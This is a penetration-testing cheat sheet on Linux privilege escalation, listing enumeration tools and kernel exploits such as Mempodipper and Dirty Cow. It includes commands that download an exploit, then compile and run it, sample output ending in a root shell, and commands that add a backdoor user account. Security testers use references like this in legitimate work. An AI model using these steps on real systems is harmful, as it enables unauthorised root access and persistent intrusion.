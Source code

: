 Privilege Escalation
==================================================================================================================

-   Linux Privilege Escalation
    ------------------------------------------------------------------------------------------------------------------------

-   Try the obvious - Maybe the user can sudo to root:  
    sudo su
    
-   Highon.coffee Linux Local Enum 
    `wget https://highon.coffee/downloads/linux-local-enum.sh`

-   Basic Linux Privilege Escalation  
    [*https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/*](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

-   Linux Privilege Exploit Suggester  
    [*https://github.com/PenturaLabs/Linux\_Exploit\_Suggester*](https://github.com/PenturaLabs/Linux_Exploit_Suggester)

-   Linux post exploitation enumeration and exploit checking tools  
    [*https://github.com/reider-roque/linpostexp*](https://github.com/reider-roque/linpostexp)

-   CVE-2010-3904 - Linux RDS Exploit - Linux Kernel &lt;= 2.6.36-rc8  
    [*https://www.exploit-db.com/exploits/15285/*](https://www.exploit-db.com/exploits/15285/)

-   CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 &lt; 3.2.2 (Gentoo
    / Ubuntu x86/x64)  
    [*https://git.zx2c4.com/CVE-2012-0056/about/*](https://git.zx2c4.com/CVE-2012-0056/about/)  
    Linux CVE 2012-0056  
    wget -O exploit.c <http://www.exploit-db.com/download/18411>  
    gcc -o mempodipper exploit.c  
    ./mempodipper

-   CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux
    Kernel &lt;= 3.19.0-73.8  
    [*https://dirtycow.ninja/*](https://dirtycow.ninja/)  
    First existed on 2.6.22 (released in 2007) and was fixed on Oct 18,
    2016  
    ./cow32  
    DirtyCow root privilege escalation  
    Backing up /usr/bin/passwd.. to /tmp/bak  
    Size of binary: 45420  
    Racing, this may take a while..  
    thread stopped  
    thread stopped  
    /usr/bin/passwd is overwritten  
    Popping root shell.

-   Run a command as a user other than root  
    sudo -u waldo /usr/bin/vim
    /etc/apache2/sites-available/000-default.conf

-   Add a user or change a password  
    /usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor  
    echo thePassword | passwd haxzor --stdin
